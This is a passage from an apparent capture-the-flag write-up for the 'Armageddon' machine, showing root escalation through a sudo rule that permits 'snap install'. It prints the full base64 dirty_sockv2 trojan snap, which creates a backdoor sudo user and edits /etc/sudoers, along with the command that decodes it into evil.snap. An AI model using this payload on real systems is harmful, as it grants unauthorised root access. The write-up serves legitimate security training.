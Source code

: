 # Root
## Snap

Checking for sudo permission we see that we can run snap install on any snap package as root.

```
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

Probably the easiest way to abuse this is by using the [dirty_sockv2](https://github.com/initstring/dirty_sock/blob/master/dirty_sockv2.py) exploit since it works by installing a malicious snap package aswell. For this we grab the base64 snap package from the source and decode it do our snap package.

```py
TROJAN_SNAP = ('''
aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw'''
+ 'A' * 4256 + '==')

print(TROJAN_SNAP)
```

```
$ python gensnap.py | base64 -d > evil.snap
```
